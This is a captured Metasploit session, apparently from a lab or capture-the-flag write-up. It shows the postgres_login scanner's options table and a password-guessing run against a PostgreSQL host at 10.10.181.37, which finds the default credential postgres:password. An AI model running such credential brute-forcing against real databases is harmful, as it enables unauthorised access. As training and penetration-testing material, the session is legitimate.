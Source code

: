 ```bash
   DB_ALL_PASS       false                                    no        Add all passwords in the current database to the list
   DB_ALL_USERS      false                                    no        Add all users in the current database to the list
   PASSWORD                                                   no        A specific password to authenticate with
   PASS_FILE         /usr/share/metasploit-framework/data/wo  no        File containing passwords, one per line
                     rdlists/postgres_default_pass.txt
   Proxies                                                    no        A proxy chain of format type:host:port[,type:host:port][...]
   RETURN_ROWSET     true                                     no        Set to true to see query result sets
   RHOSTS                                                     yes       The target host(s), range CIDR identifier, or hosts file with syntax 'f
                                                                        ile:<path>'
   RPORT             5432                                     yes       The target port
   STOP_ON_SUCCESS   false                                    yes       Stop guessing when a credential works for a host
   THREADS           1                                        yes       The number of concurrent threads (max one per host)
   USERNAME                                                   no        A specific username to authenticate as
   USERPASS_FILE     /usr/share/metasploit-framework/data/wo  no        File containing (space-separated) users and passwords, one pair per lin
                     rdlists/postgres_default_userpass.txt              e
   USER_AS_PASS      false                                    no        Try the username as the password for all users
   USER_FILE         /usr/share/metasploit-framework/data/wo  no        File containing users, one per line
                     rdlists/postgres_default_user.txt
   VERBOSE           true                                     yes       Whether to print output for all attempts

msf6 auxiliary(scanner/postgres/postgres_login) > set RHOSTS 10.10.181.37
RHOSTS => 10.10.181.37
msf6 auxiliary(scanner/postgres/postgres_login) > exploit

[-] 10.10.181.37:5432 - LOGIN FAILED: :@template1 (Incorrect: Invalid username or password)
[-] 10.10.181.37:5432 - LOGIN FAILED: :tiger@template1 (Incorrect: Invalid username or password)
[-] 10.10.181.37:5432 - LOGIN FAILED: :postgres@template1 (Incorrect: Invalid username or password)
[-] 10.10.181.37:5432 - LOGIN FAILED: :password@template1 (Incorrect: Invalid username or password)
[-] 10.10.181.37:5432 - LOGIN FAILED: :admin@template1 (Incorrect: Invalid username or password)
[-] 10.10.181.37:5432 - LOGIN FAILED: postgres:@template1 (Incorrect: Invalid username or password)
[-] 10.10.181.37:5432 - LOGIN FAILED: postgres:tiger@template1 (Incorrect: Invalid username or password)
[-] 10.10.181.37:5432 - LOGIN FAILED: postgres:postgres@template1 (Incorrect: Invalid username or password)
[+] 10.10.181.37:5432 - Login Successful: postgres:password@template1
[-] 10.10.181.37:5432 - LOGIN FAILED: scott:@template1 (Incorrect: Invalid username or password)
[-] 10.10.181.37:5432 - LOGIN FAILED: scott:tiger@template1 (Incorrect: Invalid username or password)
[-] 10.10.181.37:5432 - LOGIN FAILED: scott:postgres@template1 (Incorrect: Invalid username or password)
[-] 10.10.181.37:5432 - LOGIN FAILED: scott:password@template1 (Incorrect: Invalid username or password)
[-] 10.10.181.37:5432 - LOGIN FAILED: scott:admin@template1 (Incorrect: Invalid username or password)
[-] 10.10.181.37:5432 - LOGIN FAILED: admin:@template1 (Incorrect: Invalid username or password)
[-] 10.10.181.37:5432 - LOGIN FAILED: admin:tiger@template1 (Incorrect: Invalid username or password)
[-] 10.10.181.37:5432 - LOGIN FAILED: admin:postgres@template1 (Incorrect: Invalid username or password)
```